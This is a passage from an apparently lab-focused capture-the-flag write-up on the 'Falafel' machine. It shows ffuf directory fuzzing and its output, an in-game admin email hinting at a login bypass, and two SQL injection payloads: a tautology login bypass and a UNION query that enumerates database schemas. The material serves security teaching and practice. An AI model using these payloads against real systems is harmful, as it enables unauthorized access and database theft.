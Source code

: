Nothing grants us further access. Let’s also fuzz for .txt files:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.10.73/FUZZ -ic -e .txt

robots.txt              [Status: 200, Size: 30, Words: 3, Lines: 2, Duration: 18ms]
cyberlaw.txt            [Status: 200, Size: 804, Words: 106, Lines: 18, Duration: 21ms]

```

cyberlaw.txt:

```bash
From: Falafel Network Admin (admin@falafel.htb)
Subject: URGENT!! MALICIOUS SITE TAKE OVER!
Date: November 25, 2017 3:30:58 PM PDT
To: lawyers@falafel.htb, devs@falafel.htb
Delivery-Date: Tue, 25 Nov 2017 15:31:01 -0700
Mime-Version: 1.0
X-Spam-Status: score=3.7 tests=DNS_FROM_RFC_POST, HTML_00_10, HTML_MESSAGE, HTML_SHORT_LENGTH version=3.1.7
X-Spam-Level: ***

A user named "chris" has informed me that he could log into MY account without knowing the password,
then take FULL CONTROL of the website using the image upload feature.
We got a cyber protection on the login form, and a senior php developer worked on filtering the URL of the upload,
so I have no idea how he did it.

Dear lawyers, please handle him. I believe Cyberlaw is on our side.
Dear develpors, fix this broken site ASAP.

	~admin
```

robots.txt:

![image.png]({{ site.baseurl }}/assets/falafel/image%203.png)

When we attempt to put a SQLinjection, we also get the error Wrong Identification: admin

```bash
' OR '1'='1'-- -
```

![image.png]({{ site.baseurl }}/assets/falafel/image%204.png)

When we attempt to use another SQL injection to get the database name, we get this error:

```bash
' UNION SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata-- -

```
